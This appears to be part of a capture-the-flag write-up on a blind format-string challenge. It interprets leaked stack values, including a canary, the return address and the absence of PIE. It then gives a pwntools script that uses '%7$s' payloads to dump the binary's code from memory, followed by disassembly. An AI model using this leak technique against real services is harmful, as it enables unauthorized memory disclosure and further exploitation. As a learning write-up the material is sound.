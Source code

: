 ```
135=0x7ffeb87ddae8
136=0x100008000
137=0x4006ca
```
There, something interesting is already visible. At offset 131, there is clearly what appears to be a stack canary. From this, I deduce that offset 132 will be RBP and then offset 133 will be the return address of the function, probably `__libc_start_main + (unknown offset)`. You can also see several addresses that seem to belong to the .text section of the file, such as those at offsets 132 and 137. These addresses also indicate that the file is not protected by PIE. And the address at offset 135 is probably a stack address. I haven't found anything in the stack that resembles what could be a flag.  

## The Plan
My plan will be as follows. I will try to dump the program’s code using format strings. This will allow me, in addition to understanding what I'm facing, to see if there’s a win function. If there isn't a win function, I will try to obtain a leak from libc to determine which version of GLIBC is being used, allowing me to use the necessary gadgets from there. Depending on what I obtain, I will decide how to proceed.  
I make use of the following function to try to dump what is in the range from address 0x400000 to 0x401000.  
To do this, this function uses the format string %7$s to dereference what is in addr. If I receive an empty string, I assume it is a NULL byte; otherwise, I take the first byte and increment addr by 1. Since the server has a timeout, a new connection must be made when the current one closes.  
```py
def read_addr(p, addr):
    payload  = b'%7$s\x00\x00\x00\x00'
    payload += p64(addr)
    p.sendline(payload)
    return p.recvuntil(b'>>> ')[:-4]

def leak_section(start_addr, size):
    code = b''
    idx = 0
    print(f"[i] Leaking Section {hex(start_addr)} - {hex(start_addr+size)}")
    while(len(code) < size):
        try:
            res = read_addr(p, start_addr + idx)
            if (res == b''):
                code += b'\x00'
            else:
                code += res[0:1]
            idx += 1
        except:
            p = remote(HOST, PORT)
            p.recvuntil(b'>>> ')
            print("[i] ADDR:", hex(start_addr+idx))
    return code

def dump_qwords(buff):
    for q in range(0, len(buff), 8):
        qword = u64(buff[q:q+8])
        print(f"{hex(q)}\t{hex(qword)}\n")

code = leak_section(0x400000, 0x1000)
print(disasm(code))
```
And here is the most interesting part. The program code:  
```
     687:       55                      push   rbp
     688:       48 89 e5                mov    rbp, rsp
     68b:       48 8b 05 8e 09 20 00    mov    rax, QWORD PTR [rip+0x20098e]        # 0x201020
     692:       b9 00 00 00 00          mov    ecx, 0x0
     697:       ba 02 00 00 00          mov    edx, 0x2
```